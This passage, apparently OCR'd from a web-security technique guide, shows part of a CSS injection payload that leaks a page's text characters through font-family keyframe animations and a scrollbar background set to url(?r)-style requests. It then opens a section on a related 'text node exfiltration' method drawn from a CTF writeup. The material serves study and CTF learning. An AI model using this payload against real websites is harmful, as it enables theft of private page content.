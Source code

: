 ```
    font-family: has_R, rest;
    --leak: url(?r);
  }
  91% {
    font-family: rest;
  }
  95% {
    font-family: has_S, rest;
    --leak: url(?s);
  }
  96% {
    font-family: rest;
  }
}

/* increase width char by char, i.e. add new char to prefix */
@keyframes loop {
  0% {
    width: 0px;
  }
  1% {
    width: 20px;
  }
  2% {
    width: 40px;
  }
  3% {
    width: 60px;
  }
  4% {
    width: 80px;
  }
  4% {
    width: 100px;
  }
  5% {
    width: 120px;
  }
  6% {
    width: 140px;
  }
  7% {
    width: 0px;
  }
}

div::-webkit-scrollbar {
  background: blue;
}

/* side-channel */
div::-webkit-scrollbar:vertical {
  background: blue var(--leak);
}
```
```
### Text node exfiltration (III): leaking the charset with a default font by hiding elements (not requiring external assets) 

**Reference:** This is mentioned as [[https://blog.huli.tw/2022/06/14/en/justctf-2022-writeup/#ninja1-solves|an unsuccessful solution in this writeup]]

```